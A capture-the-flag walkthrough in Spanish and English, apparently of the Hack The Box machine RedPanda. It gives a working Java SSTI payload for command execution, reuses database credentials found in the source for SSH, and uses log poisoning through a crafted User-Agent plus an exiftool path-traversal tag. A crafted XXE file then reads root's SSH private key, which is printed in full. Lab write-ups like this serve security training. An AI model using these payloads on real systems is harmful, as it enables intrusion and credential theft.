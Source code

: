 Web Enumeration  
XML XXE JAVA injection  
script creado : javainject

What is SSTI?  
Web applications commonly use server-side templating technologies (Jinja2, Twig, FreeMaker, etc.) to generate dynamic HTML responses. As quoted by OWASP, Server Side Template Injection vulnerabilities (SSTI) occur when user input is embedded in a template in an unsafe manner and results in remote code execution on the server. More information on SSTI can be found here.

* * *

Finding the vulnerability I use:

```
*
{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id')
.getInputStream())}
```

&nbsp;

Tambien se puede usar el script python javainject  (para usar el python binario a un nuevo servidor cambiar la IP en el script python)

```
javainject "whoami"
```

```
javainject "ps -fuax"
```

```bash
root         876  0.0  0.1   8356  3356 ?        S    01:52   0:00  \_ /usr/sbin/CRON -f
root         880  0.0  0.0   2608   532 ?        Ss   01:52   0:00      \_ /bin/sh -c sudo -u woodenk -g logs java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
root         881  0.0  0.2   9420  4628 ?        S    01:52   0:00          \_ sudo -u woodenk -g logs java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
woodenk      898  5.8 10.0 3103756 203084 ?      Sl   01:52   0:19              \_ java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
root        1178  0.0  0.1   8012  3372 ?        S    01:57   0:00                  \_ su -l
woodenk     1204  0.0  0.1   9488  3912 ?        R    01:58   0:00                  \_ ps -fuax
```

se busca en los directorios del usuario que se encontro en la pagina web:

```bash
javainject "grep -r woodenk /opt/panda_search/ "
```

```bash
javainject "cat /opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java"
```

Found credentials on the line:

```
conn = DriverManager.getConnection(&quot;jdbc:mysql://localhost:3306/red_panda&quot;, &quot;woodenk&quot;, &quot;RedPandazRule&quot;);
```

login ssh with woodenk and RedPandazRule

we look for new process with the script newprocess or we download the pspy from: https://github.com/DominicBreuker/pspy  
with new process script we found:

El codigo log ejecutable que se modifica se encuentra en

```
nano /opt/credit-score/LogParser/final/src/main/java/com/logparser/App.java 
```

we download a image from the same website:  
<br/>de ahi se cambia el artista:

Cree la imagen con:  
`exiftool -Artist=../dev/shm/ippsec lazy.jpg`

y la mando con wget a la otra maquina a el folder: /dev/shm/ de la maquina servidor 

si mando esta solicitud a el servidor:

```
curl -s -X GET -A "prubea" http://10.10.11.170:8080
```

se guarda un log en

```
watch -n 1 cat /opt/panda_search/redpanda.log
```

que nos da el cat:  
`200||10.10.14.2||prubea||/`  
Ya que modificamos el log, enviamos la imagen modificada con la ruta /dev/shm/ con el artista modificado.

tambien se tiene que crear el archivo y modificarlo: ippsec_creds.xml, cambiar a chmod 777 por si acaso

y se modifico el archivo ippsec_creds.xml a esto:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>ippsec</author>
  <image>
         <uri>/../../../../../../dev/shm/ippsec.jpg</uri>
    <views>0</views>
    <data>&xxe;</data>
  </image>
  <totalviews>1</totalviews>
</credits>
```

envio la solicitud del cambio del archivo log para escribirlo

```
curl -s -X GET -A "prueba||/../../../../../../dev/shm/ippsec.jpg" http://10.10.11.170:8080/
```

&nbsp;

y no funciono, los archivos se encuentran en /dev/shm/  
perdon si funciono.  
TENER CUIDADO CON LA ESTRUCTURA DE XML  
no funciono hastsa que estaba bien formateado.

la id_rsa llego a :  
`watch -n 1 cat ippsec_creds.xml`

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo>
<credits>
  <author>ippsec</author>
  <image>
    <uri>/../../../../../../dev/shm/ippsec.jpg</uri>
    <views>1</views>
    <data>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</data>
  </image>
  <totalviews>2</totalviews>
</credits>
```

ya de ahi simplemente usar la clave para logear como root, con chmod 600

&nbsp;  
   
   
   
   
   
   
 

&nbsp;

&nbsp;  
   
 

&nbsp;

&nbsp;

&nbsp;

&nbsp;

&nbsp;

&nbsp;

&nbsp;

&nbsp;

&nbsp;

[RedPanda.pdf](:/789d3583eebb4aceb5c1208d306766ee)